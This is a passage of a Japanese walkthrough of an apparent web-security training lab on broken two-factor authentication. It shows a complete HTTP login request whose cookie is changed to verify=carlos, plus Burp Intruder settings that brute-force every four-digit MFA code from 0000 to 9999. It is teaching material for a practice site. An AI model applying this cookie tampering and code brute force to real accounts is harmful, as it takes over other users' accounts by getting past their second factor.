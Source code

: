 verify=carlosにした時、2FAはwienerには飛んできていないことを確認してください。

つまり、**verify=carlosにすることによって、2FA codeが生成された可能性があります。**

2FAは4桁であることがわかっているので、あとはBruto Forceを行います。

```html
POST /login2 HTTP/2
Host: 0a5900ac0443b48482b5fb29007e00ee.web-security-academy.net
Cookie: verify=carlos; session=3kjWloF0RpXVwjfwUQI5jEmpYhhLK2iJ
Content-Length: 10
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="117", "Not;A=Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a5900ac0443b48482b5fb29007e00ee.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a5900ac0443b48482b5fb29007e00ee.web-security-academy.net/login2
Accept-Encoding: gzip, deflate, br
Accept-Language: ja,en-US;q=0.9,en;q=0.8

mfa-code=§§
```

```

Payload sets > Payload type: Number

Payload settings [Number] > number range 

from: 0000

to: 9999

step: 1

Payload settings [Number] > number format

Min integer digits: 4

Max integer digits: 4

Settings Tag > Rediretions > Never
```
